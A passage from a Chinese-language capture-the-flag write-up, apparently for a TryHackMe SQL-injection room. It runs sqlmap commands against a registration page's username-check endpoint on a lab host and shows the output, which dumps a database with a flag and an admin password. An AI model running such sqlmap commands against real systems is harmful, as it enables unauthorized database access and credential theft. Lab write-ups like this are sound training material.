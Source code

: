 ![](img/54538cda134e5a5164ae3beb1735d9d8.png)

找到第一面旗了！。让我们寻找下一面旗帜。让我们检查注册页面。在检查用户名可用性时，存在一个 Ajax 请求。让我们先检查一下

```
# sqlmap -u "http://10.10.X.X/register/user-check?username=admin2" -p "username" --risk=3 --level=3 --dbs --dbms=mysql --threads 10**available databases [2]:
[*] information_schema
[*] sqhell_3**
```

哦！存在另一个表。转储数据库

```
# sqlmap -u "http://10.10.X.X/register/user-check?username=admin" -p "username" --risk=3 --level=3 -D sqhell_3 --dump-all --dbms=mysql --threads 10Database: **sqhell_3**
**Table: flag** [1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
**| 1  | THM{FLAG3:97AEB3B28A486441XXXXXXXXXXXXXXXX} |** +----+---------------------------------------------+Database: **sqhell_3**
**Table: users** [1 entry]
+----+----------+---------------------------------+
| id | username | password                        |
+----+----------+---------------------------------+
**| 1  | admin    | icantrememberthispassXXXXXXXXXX |** +----+----------+---------------------------------+
```
